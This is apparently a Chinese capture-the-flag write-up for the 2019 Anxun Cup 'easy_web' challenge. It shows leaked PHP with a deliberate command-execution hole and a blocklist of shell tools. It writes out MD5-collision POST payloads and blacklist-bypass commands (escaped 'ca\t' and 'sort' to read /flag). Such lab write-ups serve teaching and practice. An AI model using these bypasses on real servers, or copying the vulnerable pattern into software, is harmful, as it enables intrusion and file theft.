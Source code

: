 # \[安洵杯 2019]easy\_web

## \[安洵杯 2019]easy\_web

## 考点

* fastcoll进行md5碰撞
* 命令执行bypass

## wp

进去发现URL有问题`index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`

尝试对其base64解码，发现解不出，加个`=`再试试，两次base64，一次hex

```
TXpVek5UTTFNa1UzTURaRk5qYz0=
MzUzNTM1MkU3MDZFNjc=
3535352E706E67
555.png
```

读取index.php，`index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3`

得到代码

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
?>
```

MD5是强制转换为string再比较，只能使用fastcoll进行碰撞

![](<../../.gitbook/assets/image (20).png>)

`fastcoll_v1.0.0.5.exe -p a.txt -o 1.txt 2.txt`

```
a=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%A9p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%A6%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6de%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%3FVZ%9A%E8&b=dada%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%81z%CE%10%97%DD%29%E5%E7%82%C4%F0%05n%BE%87ykQ%29p%D2%9D%B83jC%BA%CA%A1F%FA%17%1D%10%C0N%87%2BPG%22%E1C%8F%B5%3E%87%14%81%80%1D%AB0%ACF%C7%0E%BD%26%E8%C4%269%C9y%18%D9j%84%07%93w2%26%0D%C9%E89O2%1C%DA%B2%0D%26F%25%D1Zv%3D%ECG%DE%E5f%A5%C6%1A%F4%D2%FF%CC%CAsx%B7%B6%E4d%26n%0B%EF%1D%83m%EB%08%B8%9F%AB%BFVZ%9A%E8
```

然后绕命令执行，虽然禁用了ls，但是dir还可以使用

![](<../../.gitbook/assets/image (10) (1).png>)

空格不能直接敲，要用用%20代替，

过滤了`flag`和`cat`，用`\`绕过，`?cmd=ca\t%20/fl\ag` 查看flag

或者是`?cmd=sort%20/fl\ag`
